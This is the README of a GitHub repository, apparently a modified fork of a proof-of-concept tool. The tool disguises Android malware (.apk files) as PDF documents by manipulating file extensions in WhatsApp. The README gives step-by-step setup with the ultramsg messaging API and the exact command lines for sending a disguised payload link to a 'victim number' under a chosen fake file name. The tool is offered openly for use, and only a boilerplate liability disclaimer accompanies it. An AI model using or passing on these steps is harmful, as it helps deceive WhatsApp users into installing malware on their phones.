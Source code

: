 # WhatsApp-extension-manipulation

This is a modified version of the original project by [0x6rss](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC), licensed under the MIT License.<br>

Android malware (.apk) can be spread through a fake PDF document by manipulating the file extension in the WhatsApp application. PoC is available in this repo


https://github.com/Recluse-X/WhatsApp-extension-manipulation/.resources/Wa_P-O-C.mp4

### Step 1: First, create a free account at [ultramsg](https://user.ultramsg.com/signup.php). We will use this to manage the API

### Step 2: Click the "Add Instance" button and create a new instance. <br>
<img src=".resources/R001.jpg "/> <br>


### Step 3: Log in to your WhatsApp application using the QR code found under the instance information. <br>
<img src=".resources/R002.jpg "/> <br>

### Step 4: Configuration token and API URL
```sh
python3 wa.py -t <token> -u <api url>
```
#### Show this help message
```sh
python3 wa.py -h 
```
###  To manually input one by one, type wa.py and run.
```sh
python3 wa.py
```
```sh
python3 wa.py -n <victim number> -d <payload, script link> -f <File name you want display>
```
## Disclaimer

This software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.


## License

This project continues to be licensed under the [MIT License](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC/blob/main/LICENSE).

Original copyright:
© 2024 0x6rss

Modifications:
© 2025 Recluse-X

